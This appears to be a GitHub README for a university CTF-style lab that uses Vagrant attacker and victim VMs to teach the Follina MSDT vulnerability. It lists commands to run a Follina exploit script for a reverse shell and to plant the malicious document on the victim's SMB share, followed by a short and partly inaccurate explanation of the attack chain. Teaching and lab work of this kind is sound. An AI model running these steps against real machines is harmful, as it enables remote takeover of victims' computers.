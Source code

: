 # Follina_Vagrant
A demostation of Follina, A CTF type box using vagrant

As I am part of a society to teach offensive security at the university, I was tasked with the creation of a lecture to teach and demonstrate the Follina vulnerability, to create the demonstration I used Vagrant to easily create two virtual machines, the attacker and the victim, the attacker virtual machines would be hosted on the student’s laptop so that they would have hands-on experience creating the vulnerability, whereas the victim virtual machine would be hosted on my laptop.

The victim machine running Windows 10 and has Microsoft office 2019 installed with windows defender disabled. An SMB share is also hosted for the attacker to upload the malicious file. Due to ease of use, Netcat is also installed on the victim machine, although this would not be a real-world case and the script would have to download Netcat from the internet, due to the demonstration being run offline this was the best course of action. The attacker machine running Kali Linux with John Hammonds Follina python script installed.

Instructions on attacker machine:
- Extract msdt-follina to desktop​
- Run python3 follina.py -r 9001 -i eth1 in terminal in folder​
- Run “sudo smbclient –no-pass //192.168.1.223/SMB_victim” in a separate terminal (make sure you are in the msdt-follina file)​
- Once in the smb use the “put follina.doc"​
- Once ive opened the file you should have a reverse shell 


## Follina breif
Follina is a Vulnerability in Microsoft Windows Support Diagnostic Tool (MSDT) which can be exploited via Microsoft office document. MS word creates an external link to load HTML and then uses msdt to execute the PowerShell code.​ The external reference would be pointing to a malicious server.

Once the office document is executed the office calls out trying to download a temple from an external server, the hardcoded address within the file that would respond with the malicious payload containing an ms-msdt: command-invoking PowerShell Script.​If the downloaded file is large enough it causes a buffer overflow, allowing for remote code execution.​The PowerShell script is loaded remotely and executed.​ This PowerShell script is then used to download a new payload from the internet such as a RAT or ransomware​.


